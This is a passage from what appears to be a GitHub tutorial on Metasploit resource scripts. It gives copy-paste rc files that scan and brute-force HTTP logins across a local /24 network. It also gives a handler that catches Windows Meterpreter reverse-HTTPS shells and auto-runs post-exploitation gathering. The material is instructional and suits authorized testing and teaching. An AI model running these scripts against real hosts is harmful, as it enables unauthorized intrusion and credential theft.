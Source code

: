 <br /><br />

<blockquote>In the next resource script all auxiliary modules require that RHOSTS and THREADS options are set before running the modules. In the next example we are using 'SETG' (global variable declarations) to configure all the options that we need before running the modules. So its advice before writing a resource file like this one, to first check what options are required for the auxiliary to run. The rc script will then run 3 auxiliary modules againts all hosts found inside local lan.</blockquote>

Open your text editor and copy/past the follow metasploit commands to it, save file and name it as: **http_brute.rc**
```
   setg THREADS 15
   setg RHOSTS 192.168.1.0/24
     use auxiliary/scanner/http/http_version
   run
     use auxiliary/scanner/http/dir_scanner
   run
     use auxiliary/scanner/http/http_login
   run
   unsetg RHOSTS THREADS
```
**[in terminal]::Run the script::** `msfconsole -r /root/http_brute.rc`

![gif](http://i66.tinypic.com/2usid92.gif)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />

## RESOURCE SCRIPTS IN AutoRunScript
<blockquote>This next example demonstrates how we can auto-run our resource script automatically at session creation with the help of @darkoperator 'post/multi/gather/multi_command.rb' and msfconsole 'AutoRunScript' handler flag, for this to work we need to define a global variable (setg RESOURCE /root/gather.rc) to call our resource script at session creation.</blockquote>

Open your text editor and copy/past the follow metasploit commands to it, save file and name it as: **gather.rc**
```
   sysinfo
   getuid
   services
   sessions -v
```

Open your text editor and copy/past the follow metasploit commands to it, save file and name it as: **post_handler.rc**
```
   setg RESOURCE /root/gather.rc
    use exploit/multi/handler
    set AutoRunScript post/multi/gather/multi_command
    set PAYLOAD windows/meterpreter/reverse_https
    set ExitOnSession false
    set LHOST 192.168.1.71
    set LPORT 666
   exploit
   unsetg RESOURCE
```
**[in terminal]::Run the script::** `msfconsole -r /root/post_handler.rc`

